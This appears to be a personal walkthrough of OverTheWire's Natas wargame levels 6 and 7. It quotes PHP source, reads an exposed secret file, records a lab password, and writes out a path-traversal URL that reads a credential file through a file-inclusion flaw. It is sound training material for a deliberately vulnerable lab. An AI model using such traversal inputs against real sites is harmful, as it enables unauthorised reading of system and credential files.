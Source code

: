 
Natas Level 5 → Level 6

Username: natas6
URL:      http://natas6.natas.labs.overthewire.org

Asks to Input Secret + submit query. Link to view sourcecode.

First view sourcecode:
```
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Go to view-source:http://natas6.natas.labs.overthewire.org/includes/secret.inc:
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

Submit secret:

Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

natas7
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Done!

---

Natas Level 6 → Level 7

Username: natas7
URL:      http://natas7.natas.labs.overthewire.org
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

Home, About links.

View Source: `view-source:http://natas7.natas.labs.overthewire.org/index.php?page=home`

<br>
this is the front page


</div>

Seems like it's LFI. If you use:

http://natas7.natas.labs.overthewire.org/index.php?page=../../../etc/natas_webpass/natas8
